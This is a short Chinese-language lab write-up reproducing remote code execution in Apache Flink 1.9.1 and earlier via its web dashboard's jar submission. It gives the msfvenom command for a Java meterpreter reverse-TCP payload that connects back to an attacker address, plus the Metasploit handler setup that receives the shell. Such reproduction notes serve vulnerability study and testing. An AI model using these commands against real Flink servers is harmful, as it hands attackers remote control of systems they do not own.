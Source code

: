 # 0x00 复现环境
使用复现环境：本地搭建的环境  
复现版本：Flink 1.9.1

# 0x01 环境搭建
目标环境：centos7_x64_en-us + flink-1.9.1-bin-scala_2.11.tgz + openjdk version "1.8.0_181"  
wget https://archive.apache.org/dist/flink/flink-1.9.1/flink-1.9.1-bin-scala_2.11.tgz  
tar -xvf ./flink-1.9.1-bin-scala_2.11.tgz  
cd ./flink-1.9.1/bin/  
./start-cluster.sh  
查看端口8081是否开启，如下图  
![image](./0.png)  
浏览器访问，出现下图所示，表示成功启动  
![image](./1.png)

# 0x02 利用条件
无

# 0x03 影响版本
Flink <= 1.9.1

# 0x04 漏洞复现
攻击环境：kali2020 + msf5  
msfvenom -p java/meterpreter/reverse_tcp lhost=172.16.35.128 lport=9999 -o text.jar  
msfconsole  
use exploit/multi/handler  
set payload java/meterpreter/reverse_tcp
set lhost 172.16.35.128  
set lport 9999  
run  
浏览器访问http://172.16.35.131:8081/ 后点击下图所示  
![image](./2.png)  
再点击下图所示  
![image](./3.png)  
此时，meterpreter已经收到session，如下图  
![image](./3.png)

# 0x05 踩坑记录
无

# 0x06 参考链接
无
